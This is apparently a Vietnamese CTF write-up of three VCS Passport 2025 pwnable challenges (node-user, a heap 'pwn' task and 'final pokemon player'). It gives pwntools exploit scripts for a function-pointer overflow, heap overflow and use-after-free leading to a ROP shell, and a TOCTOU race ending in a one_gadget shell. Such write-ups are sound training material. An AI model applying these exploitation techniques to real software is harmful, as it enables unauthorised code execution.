



## Introduction
Mình tìm thấy được một [video](https://www.youtube.com/watch?v=wUEV--D1A94) quay lại quá trình làm bài ở VCS Passport 2025, đây là một cuộc thi thuộc 1 trong những vòng phỏng vấn của Viettle Cyber Security. Nhìn khá là thú vị nên mình đã xin được source để làm và thử thách bản thân liệu sẽ làm được bao nhiêu bài @@. Trong quá trình viết bài thì những kiến thức cơ bản mình sẽ không nhắc lại và chỉ tập trung đi vào những nội dung chính và cách khai thác.


[Source và script](https://github.com/hakaii59/PWNABLE/tree/main/2025/VCS%20Passport) 
## node-user 
Bài này là một bài overflow, chúng ta có thể kiểm soát vị trí nhập vào của input thông qua hàm `Read_Grapth`:
```c
read(0, tmp->data + strlen(tmp->data), 0x10);
```
Cấu trúc struct của Node:
```c
typedef struct node
{
    size_t id, n;
    char data[0x10];
    void (*func_ptr)(char*);
    size_t link[0x10];
} node;
```
Việc ghi đè được biến data, dẫn tới có thể đè lên các biến lân cận như hàm `node->func_ptr` thành `call_me` để đọc được flag!

Ta có payload!
```python
create_node(0)
read_node(0, b'a'*(0x10-1))
read_node(0, b'\x01' +p64(exe.sym.call_me))
p.interactive()
```
Lấy được cờ.
```bash
$ ./exploit.py
[+] Starting local process '/mnt/d/CTFTrainning/VCS2025/node-user/node_node_node_patched': pid 555
[*] Switching to interactive mode
VCS{test}
Data saved
1. Create node
2. Link nodes
3. Save data
4. Exit
>>
$
```
## pwn
### Reverse Engineering and Analysis Bug.
Reverse lại struct user.
```c
struct user {
    char name[0x20];
    char address[0x40];
    void *bio;
}; 
```
Đây là một bài heap cơ bản. Nó khá là nhiều bug ở đây bao gồm như UAF, Tcache-poisoning, Heap Overflow.


Bug Heap Overflow là khi `add_user`, attacker sẽ khởi tạo một vùng heap `user->bio` thông qua hàm `strdup` sao cho kích thước nhỏ hơn 0x100 byte rồi sau đó gọi hàm `edit_bio`, hàm này cho phép nhập dữ liệu lớn hơn 0x100 byte vào `user-> bio`.
```c
int add_user()
{
    ...
        printf("Name: ");
    read_input((void *)user[v3], 0x20u);
    printf("Address: ");
    read_input((void *)(user[v3] + 32LL), 0x40u);
    printf("Bio: ");
    read_input(s, 0x100u);
    v0 = user[v3];
    *(_QWORD *)(v0 + 0x60) = strdup(s);
    printf("User added at index %d\n", v3);
  }
}

int edit_bio()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  printf("Index: ");
  v1 = sub_1346();
  if ( v1 > 9 || !user[v1] )
    return puts("Invalid index");
  printf("Old Bio: %s\n", *(const char **)(user[v1] + 96LL));
  printf("New Bio: ");
  read_input(*(void **)(user[v1] + 96LL), 0x100u);
  return puts("Bio updated");
}
```
Tiếp theo là bug UAF:
```c
int delete_user()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  printf("Index: ");
  v1 = sub_1346();
  if ( v1 > 9 || !user[v1] )
    return puts("Invalid index");
  free(*(void **)(user[v1] + 96LL));
  free((void *)user[v1]);
  user[v1] = 0;
  return puts("User deleted");
}
```
Workflow cơ bản sẽ là leak libc, heap -> leak stack -> overwrite ret address -> getshell.
### Leaking heap and libc.
Vì chức năng `add_user` chỉ cho phép ta tạo 10 user với kích thước **0x68** nên để có được địa chỉ leak libc. Ta sẽ fake size thành `0x461` để khi free nó sẽ rơi vào unsortedbin => leak libc.
Payload:
```python
for i in range(10):
    add_user(b'A'*0x10, b'B'*0x10, b'C'*0x10)
edit_bio(0, b'A'*0x18+p64(0x461))
delete_user(1)
add_user(b'A', b'B', b'C'*0x10)
print_user(1)
p.recvuntil(b'Name: ')
libc.address = u64(p.recvline().strip().ljust(8, b'\x00')) - 0x203f41
info(f'libc base: {hex(libc.address)}')
edit_bio(0, b'A'*0x30)
print_user(0)
p.recvuntil(b'A'*0x30)
heap = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x320
info(f'heap base: {hex(heap)}')
```
Output:
```bash
$ ./exploit.py
[+] Starting local process '/mnt/d/CTFTrainning/VCS2025/pwn2/chall_patched': pid 1234
[*] libc base: 0x7cd7479aa000
[*] heap base: 0x5d1456575000
[*] Stopped process '/mnt/d/CTFTrainning/VCS2025/pwn2/chall_patched' (pid 1234)
```
Việc heap overflow ghi đè được biến `user->bio` dẫn đến => Arbitrary read và Arbitrary write
### Get shell
Payload:
```python
edit_bio(0, b'A'*0x18+p64(0x71)+b'A'*0x60 + p64(libc.sym.environ))
print_user(1)
p.recvuntil(b'Bio: ')
stack = u64(p.recvline()[:-1].ljust(8, b'\x00'))
offset = 0x150
info(f'stack base: {hex(stack)}')
info(f'target: {hex(stack - offset)}')
delete_user(3)
pop_rdi = libc.address + 0x10f78b
edit_bio(0, b'A'*0x18 + p64(0x71) + b'A'*0x60 + p64(stack - offset))
edit_bio(1, p64(pop_rdi) + p64(libc.search(b'/bin/sh\x00').__next__()) + p64(pop_rdi + 1) + p64(libc.sym.system))
```
Getshell thành công!

## final pokemon player
### Reverse Engineering
Mình reverse lại các struct sau cho dễ hình dung và viết lại các biến toàn cục:
```c
struct Pokemon {
    char name[32];
    unsigned int hp;
    unsigned int atk;
    void (*talk)(void);     
    char custom_name[32];
};                           
struct Trainer {
    char name[32];
    unsigned int money;
    unsigned int win_count;
    char special_quote[32];
    unsigned int level;
    unsigned int _unused;
};                            

Pokemon *my_bag[5];           // 0x5040 
Trainer *my_info;             // 0x5068 
Item    *item_list_head;      // 0x5070
unsigned int num_of_pokemon;  // 0x5078 
Pokemon pokemon_catalog[10];  // 0x5080 
```
### Exploit strategy
#### TOCTOU and leaking exe base
Bug nằm ở việc biến toàn cục `num_of_pokemon` vừa được dùng làm điều kiện kiểm tra số lượng, vừa được dùng làm index để ghi — và cả hai thao tác đó lại được thực hiện độc lập ở hai hàm khác nhau, `buy_pokemon_from_shop` và `start_routine`, không hề có bất kỳ đồng bộ hoá nào giữa chúng. 
```c
// buy_pokemon_from_shop
if (num_of_pokemon <= 4) {
    Pokemon *dest = malloc(sizeof(Pokemon));
    memcpy(dest, &pokemon_catalog[choice], sizeof(Pokemon));
    money -= 100;
    read(0, dest->custom_name, 0x1F); 
    my_bag[num_of_pokemon++] = dest;    
}
//start_routine
if (num_of_pokemon <= 4) {
    Pokemon *dest = malloc(sizeof(Pokemon));
    ...
    my_bag[num_of_pokemon++] = dest;
}
```


=> Lợi dụng điều đó ta có thể mua được tận 6 con pokemon và con pokemon thứ 6 đó sẽ ghi đè lên struct của `my_info` leak được exe base.


Điều kiện trigger đơn giản như sau: 
+ Mua 4 con pokemon bất kỳ để num_of_pokemon sẽ có giá trị là 4.
+ Mua item **Auto Pokemon Finder** để gọi hàm `use_item`. Mục tiêu là tạo một thread mới chạy `start_routine`.
+ Gửi thật nhanh các hành động mua pokemon thứ 5 và use_item. Lúc này ở hàm `buy_pokemon_from_shop`, bypass điều kiện check `num_of_pokemon <= 4` và chờ ở lệnh `read()` không nhập **custom name**, trong lúc đó thread khác ở hàm `use_item` hoàn tất `num_of_pokemon = 5` và `my_bag[4] = dest`
+ Gửi giá trị vào biến `custom_name` thì lúc đó đang ghi vào `my_bag[5] = dest` (vượt quá một phần tử so với kích thước mảng).
+ Lúc này giá trị của hàm `pikachu_say` sẽ ghi đè vào biến `custom_name`, gọi `view_my_info` để in ra giá trị exe.


Payload:
```python
def trigger_toctou():
    global p
    p = process(exe.path)
    for _ in range(4):
        buy_pokemon_from_shop(1, b'abc')
    buy_item(3)
    ### Thực hiện nhanh sử dụng buy_pokemon_from_shop và use_item
    p.sendlineafter(b'Choice: ', b'5')
    p.sendline(b'1')
    p.sendline(b'1')
    p.sendline(b'2')
    r = p.recv()
    if b'Pokemon: ' not in r:
        p.close()
        return False
    p.sendline(b'abc')
    view_my_info()
    p.recvuntil(b'Special Quote: ')
    exe.address = u64(p.recvline().strip().ljust(8, b'\x00')) - 0x1443
    info('Exe base: ' + hex(exe.address))
    return True

for _ in range(30):
    if trigger_toctou():
        break
```
### Leaking Libc and Getshell
Giờ đây, ta có thể tận dụng `pokemon->talk()` ở con pokemon cuối ghi đè lên `my_info` và việc sửa `special_quote` (đồng nghĩa sửa `pokemon->talk` ở pokemon cuối) bằng hàm `edit_my_info` => Arbitrary call.


Đặt breakpoint lúc `pokemon->talk` thì mình phát hiện thanh ghi RDI đang được gán giá trị libc.

Vậy nên mình ghi đè `pokemon->talk` thành `put@plt` để leak được libc sau đó gọi `one_gadget` để lấy shell.
Payload:
```python
edit_my_info(2, special_quote=p64(exe.plt.puts))
view_my_info()
p.recvuntil(b'6.')
p.recvuntil(b'HP: 78, ATK: 84')
print(p.recvline())
libc.address = u64(p.recvline().strip().ljust(8, b'\x00')) - libc.sym.funlockfile
info('Libc base: ' + hex(libc.address))
one_gadget = libc.address + 0xebcf5
edit_my_info(2, special_quote=p64(one_gadget))
view_my_info()
```
Getshell thành công!


> Góc thắc mắc: những ai master pwnable giải đáp giúp mình, nếu RDI không được set bởi giá trị funlockfile thì chúng ta còn cách nào khác để leak libc không? Theo mình đoán thì giá trị này nó xuất hiện sau khi mình sử dụng các hàm trong glibc `printf`, `puts` đây là cơ chế dọn dẹp của các hàm đó, nhưng khi mình viết một source code mô phỏng lại việc sử dụng `printf` thì giá trị này nó lại được set cho những thanh ghi khác chứ không phải RDI (liệu nó có tuy thuộc từng phiên bản hay không @@)


